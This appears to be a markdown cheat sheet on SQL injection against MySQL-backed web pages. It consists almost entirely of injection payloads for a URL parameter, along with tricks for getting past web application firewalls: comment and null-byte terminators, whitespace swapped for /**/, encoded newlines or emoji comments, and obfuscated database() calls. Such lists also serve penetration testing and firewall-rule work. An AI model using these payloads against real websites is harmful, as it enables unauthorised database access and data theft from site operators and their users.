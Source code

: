## Stabilise the error message
Whenever the website keeps showing up erros on MySQL syntax, it is required to enter queries to fix the error. This usually happens when server doesn't accept ```-- -``` inside the queries. 

```http://domain.com/index.php?id=1' order by 1)--```   
```http://domain.com/index.php?id=1' order by 1))--```  
```http://domain.com/index.php?id=1' order by 1;%00```     
```http://domain.com/index.php?id=1' order by 1));%00```   
```http://domain.com/index.php?id=1' order by 1;%60```    
```http://domain.com/index.php?id=1' order by 1%23```    
```http://domain.com/index.php?id=1' order by 1%60```    
```http://domain.com/index.php?id=1' order by 1%90```   
```http://domain.com/index.php?id=1'%23/* order by 1```  
```http://domain.com/index.php?id=1') order by 1```  
```http://domain.com/index.php?id=1' order by 1") ;%00```  
```http://domain.com/index.php?id=1' order by 1#--+```  
```http://domain.com/index.php?id=1' order by 1'))%23``` 


If MySQL Syntax Error still persists, simply try again the payloads, but this time, without ```-- -```


## Whitespace WAF-based bypass

Whenever the WAF blocks the query to include space/whitespace, you can easy replace with the following payloads:  

```
/**/
/**_**/
%23nuLL%0A
%23qa%0A%23%0A
%23foo*%2F*bar%0D%0A
+
```

For example, you can replace the whitespaces on the following payload:  
```http://domain.com/index.php?id=1' order by 1-- -```  
with  
```http://domain.com/index.php?id=1'/**/order/**/by/**/1--/**/-```  
or with  
```http://domain.com/index.php?id=1'%23nuLL%0Aorder%23nuLL%0Aby%23nuLL%0A1--%23nuLL%0A-```  
and so on...

## Whitespace Bypass via Emoji

```
/*️*/
/*️⃣*/
```

For example:  
```http://domain.com/index.php?id=1'/*️*/order/*️*/by/*️*/1--/*️*/-```

## WAF blocks retrieving information from database()

Simply replace ```database()``` with one of the following payload:  
```database/*badd*//**/()```  
```database%23%0A(%23%0A)```
